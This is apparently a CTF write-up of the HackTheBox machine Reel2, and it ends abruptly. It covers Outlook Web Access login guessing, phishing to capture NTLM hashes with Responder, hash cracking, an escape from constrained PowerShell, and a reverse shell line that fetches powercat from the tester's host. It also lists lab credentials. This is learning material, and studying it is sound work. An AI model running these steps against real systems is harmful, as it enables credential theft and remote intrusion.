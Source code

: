 Tittle: Reel2 writeup hackTheBox - DarkRider88
Date: 18/03/2021
Description: In this box we are trying to enumerate a service collect some users and make a wordlist and then launcing our phishing attack against all the users to get the valid NTLM hash through memory leak.
Image: /assets/images/Reel2.png

## Enumeration

port 443 is accesible
```
/public
```

on port 8080
```
sven - summer is too hot this year 2020
username: svensson

```

Valid username
```
S.svensson
which have summer in its password
```
try to login to https://ip/owa/auth

```
S.svensson: Summer2020
```

After login we see there are 10-12 emails in the address book.
Let's go to fishing.
select all and send a email..

phishing will be done with NTLM hash stealing with responder
https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes

Download Responder and send your ip address to the users.

**bug: the user is nowhere: use k.svensson to send the email with your ip**

crack the hash with hashcat
```bash
hashcat -m 5600 hash wordlist

```

```creds
k.svensson: kittycat1
```

**Evil-winrm will not work**

Run powershell in kali and enter following commands

```bash
sudo apt-get install powershell
sudo apt-get install gss-ntlmssp

pwsh
$session = New-PSSession -Computer 10.10.10.210  -Authentication Negotiate -Credential k.svensson 

Enter-PSSession $session

```


### Escaping powershell

> Get-Command ( it list all the available commands )
> so we are going to define a function whose name will be on of the available commands.


```bash
function Get-Help { whoami }   # defining the function

Get-Help 	# calling it 
```

Getting reverse shell

```bash
function Get-Help { powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.107:8000/powercat.ps1');powercat -c 10.10.14.107 -p 1234 -e cmd" }
```






## Root

in the \Users\Documents there is a sticky notes link it means there is some sticky notes on the desktop.

checking the 
C:\Users\k.svensson\AppData\Roaming\stickynotes\000003.log



```
jea_test_account: Ab!Q@vcg^%@#1
```

to login we need to convert this password into secure string and then pass to New-pssesion
https://duffney.io/addcredentialstopowershellfunctions/

```
$password = ConvertTo-SecureString "Ab!Q@vcg^%@#1" -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential ("jea_test_account", $password)

Enter-PSSession -Computer 10.10.10.210 -Credential $Cred -ConfigurationName jea_test_account -Authentication Negotiate
```
### just enough administration
Now in the documents there were two files .. reading those 
there is function of check-file which is available to jea_test_account after login ( Get-Commands)

In file jea_test_account.psrc
```bash
FunctionDefinitions = @{
    'Name' = 'Check-File'
    'ScriptBlock' = {param($Path,$ComputerName=$env:COMPUTERNAME) [bool]$Check=$Path -like "D:\*" -or $Path -like "C:\ProgramData\*" ; if($check) {get-content $Path}} }
```

Thas it Rooted